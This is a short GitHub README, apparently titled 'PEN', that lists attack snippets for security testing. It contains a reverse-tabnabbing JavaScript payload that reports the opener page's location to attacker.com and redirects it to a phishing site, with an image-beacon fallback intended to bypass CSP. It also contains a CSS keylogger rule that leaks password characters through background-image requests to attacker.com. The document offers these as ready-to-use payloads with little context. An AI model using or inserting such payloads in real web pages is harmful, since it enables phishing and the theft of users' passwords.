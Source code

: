 # PEN
A curated list of script and attack for security testing purposes and knowledgement.  
  
## JavaScript:
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener) {
      fetch("//attacker.com/log/start/phishing/?location=" + window.opener.location)
      .then(response => {
        // Wait for the deployment of the phishing site.
        setTimeout(() => {
          // Then redirect the opener browser window to the attacker site.
          window.opener.location = 
              `https://attacker.com/${response.json().uuid}/${window.opener.location}`
              
        }, 5000)
      })
      .catch(err => {
        // Error, maybe CSP :(
        
        let bypassCSP = new Image();
        bypassCSP.src = "//attacker.com/log/?location=" + window.opener.location
      });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/
